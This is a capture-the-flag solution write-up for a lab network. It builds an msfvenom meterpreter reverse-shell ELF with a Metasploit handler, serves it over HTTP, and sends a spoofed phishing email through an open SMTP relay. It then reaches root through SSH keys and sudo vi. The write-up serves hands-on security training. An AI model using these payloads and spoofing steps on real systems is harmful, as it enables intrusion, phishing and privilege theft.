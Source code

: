 # A Link? I'll Click It! Solution

_Note: IP addresses in this guide may change due to DHCP. Simply replace IP addresses in the guide with the correct IPs you find_

The solution we will build will follow a process of:  

0. Determine the architecture of a target
1. Setting up a reverse shell listener with Metasploit
1. Crafting a malicious program with msfvenom
1. Sending an email with telnet
1. Use Metasploit to interact with targeted hosts


## Section 0 - Determine Target Architecture

If you are running through this challenge for the first time, with no information about the network, you will likely need to collect more information first.  You can do this by following the steps below to send an email with a link to a simple website which logs the IP address of visitors (`'python3 -m http.server'` should work).

Once you know the target IP address you can use DNS or Nmap to gather more information about the target. `nslookup 172.16.20.25` to use DNS to find the hostname `APostLinuxWorkstation.makestuff.company`.  You can also use `nmap 172.16.20.25` to gather more information.   This should lead to the conclusion that the target is a Linux host. 


## Section 1 - Reverse Shell Listener

This reverse shell listener (handler) will listen for a metasploit

1. Start the Metasploit Console --    `msfconsole -q`
1. Start using a handler  --   `use exploit/multi/handler`
1. Configure the handler options - the meterpreter payload below will spawn an interactive meterpreter session where the victim is initiating a TCP session with the attacker   
 ```
set payload linux/x64/meterpreter_reverse_tcp  
set lhost 172.16.20.26
set lport 4444
``` 
> _change the IP address if needed. Port number is your choice_
4. Start the listener as a background job  --  `exploit -j`

<img src="img/image1.png">


## Section 2 - Craft Malicious Payload

1. Use MSFVenom to create a malicious exe. This exe will start a meterpreter session which connects back to our Kali machine from the victim. The malware will prepend a migration into another process so the connection to the attacker is still running when the malicious process dies. Run the command:  

```
msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=172.16.20.26 lport=4444 -f elf > file.elf
``` 

<img src="img/image2.png">

2. Begin serving this file via a webserver by using python. This will allow a web request to download the file

```
python3 -m http.server
```
<img src="img/image3.png">


## Section 3 - Sending an email with Telnet

Performing an nmap scan on the email server in the network will reveal that the mail server is an "open relay". This means that the server is configured to forward messages to any email address from any email address. 
```
sudo nmap --script smtp-open-relay.nse mail.makestuff.company
```
<img src="img/image4.png">

You can connect to this open relay server and send SMTP commands with telnet. See the screenshot below to view SMTP commands for sending an email through telnet. The parts highlighted in yellow are the lines which are typed by the user (other lines are text returned by the server).

<img src="img/image5.png">

Notice in the screenshot that the `TO` and `FROM` email addresses are the expected addresses for the challenge requirements. After typing `DATA` to mark the beginning of the message, enter the Subject. Then you must leave a blank line before entering the email content. Enter the URL for the file you want the user to run as the content of the email. End the email with a period (`.`) on its own line. 

This should result in an email being sent with the FROM address being `kbrady@makestuff.company` show in the inbox of `apost@makestuff.company`.


## Section 4 - Interacting With Metasploit

Once you have a metasploit connection, you should be able to retrieve the first token right away.

```
meterpreter> cat token1
```
<img src="img/image6.png">

You can then run the getuid command to see which user's context you are currently under (who you are logged in as). 

Navigate to that user's home directory and view the .ssh directory. Notice that there are some authorized keys (SSH keys which may allow SSH login without a password). The SSH Key is for the user austin on the localhost.

Drop from meterpreter into a system command shell. Use SSH to login as the user `austin` on the localhost. 

<img src="img/image7.png">

Run `sudo -l` to list the sudo permissions for the user `austin`. Notice that the user can run the vi program as sudo without the use of a password. Run vi with sudo to have the program open as root.

<img src="img/image8.png">


Type `:!/bin/bash` once the vi program loads to have a root permission bash session open in vi. Change directory to / and read the second token. 
<img src="img/image9.png">



